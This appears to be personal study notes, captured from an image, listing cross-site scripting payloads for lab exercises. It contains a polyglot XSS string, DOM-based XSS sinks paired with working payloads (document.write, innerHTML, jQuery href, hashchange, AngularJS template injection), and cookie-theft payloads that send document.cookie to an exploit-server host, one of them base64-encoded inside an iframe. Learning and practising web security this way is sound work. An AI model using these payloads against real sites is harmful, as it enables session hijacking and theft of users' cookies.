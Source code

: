 ```
template literals with encodings:
${alert(1)}
also magic polyglot:
JavaScript://%250Aalert?.(1)//'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(alert)(1)}//><Base/Href=//X55.is\76-->


Base64 :
'document.location='https://<exploit-server>/?c='+document.cookie -> to base64

Final payload:
<iframe src="https://<xss url>/?searchterm=%27%3Cbody%20onload=%22eval(atob('base64
encoded'))%22%3E//" onload="this.onload='';this.src+='#XSS'"></iframe>
```
HTML ENCODINGS:
https://www.degraeve.com/reference/specialcharacters.php
DOM
```
-> location.search query + Document.write (Burp Scan)
window.location.search)).get('search')
document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
payload = '"><script>alert(1)</script>

-> location.search + innert.html (Burp Scan)
query = (new URLSearchParams(window.location.search)).get('search')
document.getElementById('searchMessage').innerHTML = query;
payload = <img src=x onerror=alert(1)>

-> jquery anchor href + location.search (Burp Scan)
href", (new URLSearchParams(window.location.search)).get('returnPath'));
payload = ?returnPath=javascript:alert(document.cookie)

-> hashchange event in jquery (Burp Scan)
hashchange', function(){ var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')')
payload = https://.../#<img src=1 onerror=alert(1)>

-> document.write with location.search param
&storeId="><script>alert(1)</script>

-> angular JS prior to 1.8 vulnerable to:
{{constructor.constructor('alert(1)')()}}

-> html.replace('<', '&lt;').replace('>', '&gt;'); in a string, single occurrence
<><img src=x onerror=alert(1)>
```

More elaborated DOM:
![[Pasted image 20240303164438.png]]
```
\"}-alert(1)//
"}; location="https://exploit-0a0500a0045f599884e00d6001da00b1.exploit-server.net/c?"+document.cookie; //
```
